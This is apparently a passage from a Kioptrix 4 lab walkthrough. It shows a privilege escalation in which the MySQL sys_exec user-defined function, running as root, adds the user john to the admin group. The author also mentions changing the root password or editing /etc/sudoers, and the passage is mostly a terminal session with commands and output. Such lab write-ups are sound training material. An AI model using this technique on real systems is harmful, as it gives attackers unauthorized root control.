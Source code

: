 After some Googling it turned out this can easily be exploited by running commands in the `mysql` shell, which would be executed on the system itself as root. This can be done with `sys_exec();` and has to be preceded with a `select` statement. This means there were a lot of options in how I could escalate my privileges here. Some examples are adding a new user to the admin group, changing the root password or indirectly editing the `/etc/sudoers` file. The first one is both the most stealthy and the most simple option of the three, so I went with that:

```bash
john@Kioptrix4:/tmp$ mysql -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 25
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show tables;
ERROR 1046 (3D000): No database selected
mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
| columns_priv              |
| db                        |
| func                      |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| host                      |
| proc                      |
| procs_priv                |
| tables_priv               |
| time_zone                 |
| time_zone_leap_second     |
| time_zone_name            |
| time_zone_transition      |
| time_zone_transition_type |
| user                      |
+---------------------------+
17 rows in set (0.00 sec)

mysql> select * from func;
+-----------------------+-----+---------------------+----------+
| name                  | ret | dl                  | type     |
+-----------------------+-----+---------------------+----------+
| lib_mysqludf_sys_info |   0 | lib_mysqludf_sys.so | function |
| sys_exec              |   0 | lib_mysqludf_sys.so | function |
+-----------------------+-----+---------------------+----------+
2 rows in set (0.00 sec)

mysql> select sys_exec('usermod -a -G admin john');
+--------------------------------------+
| sys_exec('usermod -a -G admin john') |
+--------------------------------------+
| NULL                                 |
+--------------------------------------+
1 row in set (0.04 sec)

mysql> exit
```